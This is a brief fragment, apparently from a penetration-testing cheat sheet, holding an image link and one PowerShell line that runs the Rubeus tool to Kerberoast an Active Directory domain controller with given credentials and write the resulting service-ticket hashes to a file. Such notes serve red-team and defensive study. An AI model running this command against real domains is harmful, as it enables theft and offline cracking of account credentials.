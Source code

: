 Rubeus
```powershell
rubeus.exe kerberoast /creduser:'domain'\'user' /credpassword:'password' /dc:'ip' /outfile:'file'
```
